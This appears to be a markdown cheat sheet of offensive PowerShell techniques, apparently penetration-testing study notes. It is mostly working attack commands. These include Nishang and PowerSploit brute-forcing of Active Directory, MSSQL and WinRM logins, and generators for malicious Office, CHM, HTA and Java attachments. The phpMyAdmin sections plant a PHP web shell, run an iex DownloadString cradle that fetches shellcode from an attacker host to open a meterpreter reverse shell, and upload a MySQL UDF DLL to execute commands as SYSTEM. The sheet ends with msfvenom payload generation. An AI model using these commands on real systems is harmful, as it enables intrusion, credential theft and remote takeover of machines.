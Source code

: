 # Offensive Powershell
---
# Navigation
- **[Reconnaissance](#Reconnaissance)**
	- [PortScanning Host discovery](#PortScanning%20Host%20discovery)
	- [Directory discovery](#Directory%20discovery)
	- [Shodan](#Shodan)
	- [Automating Nmap](#Automating%20Nmap)
	- [Brute-Force](#Brute-Force)
	- [MSSQL](#MSSQL)
- **[Client-Side attacks](#Client-Side%20attacks** 
	- [Malicious Attachments](#Malicious%20Attachments)
- **[Exploitation](#Exploitation)**
	- [PHPMyAdmin](#PHPMyAdmin)
- **[Metasploit](#Metasploit)**

> **Note:**
>  To list the modules and parameters for a specific function in a module -> [List module commands](Powershell%20Basics#List%20module%20commands)
---
# Reconnaissance
## PortScanning & Host discovery
```Powershell
#Powersploit module
Invoke-PortScan <Args> | Select-Object -ExpandProperty openports
#Posh-SecMod module
portscan <Args>
Invoke-ARPScan <Args>
Invoke-EnumSRVRecords <Args>
```
## Directory discovery
```powershell
#PowerSploit module
Get-HttpStatus <Args> | Where-Object {$_.Status -match "ok"}
```
## Shodan
```powershell
#Posh-Shodan module
Get-Command -module Posh-shodan
```
## Automating Nmap
```powershell
#Scandiff script
./scandiff.ps1 -frequency daily -basename nmap-output -targets 192.168.1.10-25,scanme.nmap.org
```
> **Scandiff**: https://github.com/hardwaterhacker/scandiff
## Brute-Force
**Nishang module:**
-  **Services:** FTP , Active Directory, MSSQL, Sharepoint.
```powershell
cat <PassFile> | Invoke-BruteForce -IP <IP> -UserName <Username>  -service ActiveDirectory
cat C:\test\servers.txt | Invoke-BruteForce -UserList C:\test\users.txt -PasswordList C:\test\wordlist.txt -Service SQL -Verbose
```
- **Services:** WinRM
```powershell
Get-WinRMPassword -UserName Administrator -ComputerName victimserver -WordList c:\mywordlist.txt
```
>**Sources:**
> Script -> [WinRMPassword](https://poshsecurity.com/blog/2014/3/20/powershell-winrm-get-winrmpassword.html)
## MSSQL
```powershell
#Nishang
Execute-Commnand-MSSQL -ComputerName abuqasemPC -
WindowsAuthentication 
Execute-Commnand-MSSQL -ComputerName abuqasemPC -payload <Command>
```
> `WindowsAuthentication` is useful when our current powershell session have enough privileges to access remote DB but we don't have credentials.
---
# Client-Side attacks
## Malicious Attachments
1. **Microsoft-Word & Excel**
```powershell
#Nishang
Out-Word -Payload <Payload>
Out-Excel -Payload <Payload> -ExcelFileDir <Path\to\files.xls>
```
> `ExcelFileDir` Output a malicious excel file with the same name,attributes as the file pointed to.

2. **Shortcut & CHM** 
```powershell
#Nishang
#Payload starts with '-c' because the powershell command is already hardcoded in the script.
Out-Chm -Payload "-c <COMMANDS>" -HHCPath "C:\PATH\TO\HTML HELP Workshop"
Out-Shortcut -Payload <Payload>
```
> **Further reading:** https://medium.com/r3d-buck3t/weaponize-chm-files-with-powershell-nishang-c98b93f79f1e


3. **Phishing/Drive-by-download**
- **Out-HTA**: Generates HTML app. and VBS script.
- **Out-Java**: Generates a malicious jar file.
```powershell
Out-HTA -PayloadURL http:\\10.10.10.10.\Rev.ps1
Out-Java -Payload "-c <COMMAND>" -JDKPAth <PATH\TO/JDK> -NoSelfSign
```
>**Note:**
> Both Scripts generate two files.

---
# Exploitation
## PHPMyAdmin
- **Assumptions**
    - Username / Password of phpMyAdmin is known
    - Writable directories on the web server are known
### From phpMyAdmin access to SYSTEM privileges
1. Check OS
```txt
SHOW VARIABLES LIKE "%version%";
```
2. Create WebShell
 ```sql
SELECT '<?php echo shell_exec($_GET[\'e\']); ?>' INTO OUTFILE 'C:\\inetpub\\wwwroot\\phpmyadmin\\config\\shell.php'
#Then
http://newpc/phpmyadmin/config/shell.php?e=whoami
```
3. Get a Meterpreter
```powershell
#Powersploit module
http://newpc/phpmyadmin/config/shell.php?e=C:\Windows\Syswow64\Windowspowershell\v1.0\powershell.exe -c iex((New-Object Net.WebClient).DownloadString('http://192.168.254.1/Invoke-ShellCode.ps1'));Invoke-ShellCode -Payload windows/meterpreter/reverse_https -LHOST 192.168.254.226 -LPORT 8443 -Force
```
> `Invoke-ShellCode` Is useful when we don't have write access to any file,because it injects the code in memory without having to touch the disk.
## PHPMyAdmin 2
1. **Identify the  plugin directory**
```sql
SELECT @@plugin_dir
```
2. **Convert the  DLL  to bytes.**
 - [UDF DLL from sqlmap](https://github.com/sqlmapproject/sqlmap/tree/master/udf/mysql/windows)
```powershell
#Nishang
Convert-Dll -DllPath .\lib_mysqludf_sys.dll_ -OutputPath dll.txt
```
3. **Write to the plugin directory of the  server.**
```powershell
SELECT CHAR(77,90,144...) INTO OUTFILE 'C:\\Program Files\\MySQL\\MySQL Server 5.6\\lib\\plugin\\lib_mysqludf_ sys.dll' FIELDS ESCAPED BY ''
```
4. **Create a function**
```sql
CREATE FUNCTION sys_eval RETURNS STRING SONAME 'lib_mysqludf_sys.dll'
```
5. **Execute commands as  SYSTEM**
```sql
Select sys_eval('whoami')
```
---
# Metasploit
PowerShell payload formats
1. **psh**
2. **psh-cmd**
3. **psh-net**
4. **psh-reflection**
	- Very useful
	- Compilation happens in memory
	- No need of execute privileges on temp directory 
	- Use this often
- **Metasploit modules which use PowerShell**
	-  `exploit/windows/smb/psexec_psh`
        - Payload is never written to disk
	- `exploit/windows/local/powershell_cmd_upgrade`
		- Used to upgrade a  native cmd  to  meterpreter.
	- `post/windows/manage/powershell/exec_powershell`
		- Execute a .ps1 from local machine.

### Example
```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.10.10 -f psh-reflection > ps.ps1
```
---
